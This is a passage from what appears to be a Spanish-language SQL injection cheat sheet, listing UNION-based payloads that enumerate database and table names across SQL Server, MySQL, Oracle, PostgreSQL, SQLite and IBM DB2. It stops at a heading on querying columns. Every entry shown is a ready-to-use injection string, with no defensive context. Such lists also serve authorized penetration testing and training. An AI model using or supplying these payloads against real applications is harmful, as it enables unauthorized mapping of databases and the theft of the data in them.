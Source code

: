 #### Obtener nombre de la base de datos

* SQL Server
    ```sql
    ' UNION SELECT name, NULL FROM master..sysdatabases--
    ```
* MySQL
    ```sql
    ' UNION SELECT schema_name, NULL FROM information_schema.schemata--
    ```
* Oracle
    ```sql
    ' UNION SELECT username, NULL FROM all_users--
    ```
* PostgeSQL
    ```sql
    ' UNION SELECT datname, NULL FROM pg_database--
    ```
* IBM DB2
    ```sql
    ' UNION SELECT schemaname, NULL FROM syscat.schemata--
    ```

#### Consultar tablas

* SQL Server
    ```sql
    ' UNION SELECT TABLE_NAME, NULL FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = DB_NAME()--
    ```
* MySQL
    ```sql
    ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database()--
    ```
* Oracle
    ```sql
    ' UNION SELECT table_name, NULL FROM all_tables--
    ```
* PostgeSQL
    ```sql
    ' UNION SELECT tablename, NULL FROM pg_tables WHERE schemaname = current_schema()--
    ```
* SQLite
    ```sql
    ' UNION SELECT name, NULL FROM sqlite_master WHERE type='table'--
    ```
* IBM DB2
    ```sql
    ' UNION SELECT tabname, NULL FROM syscat.tables WHERE tabschema = current schema--
    ```

#### Consultar columna
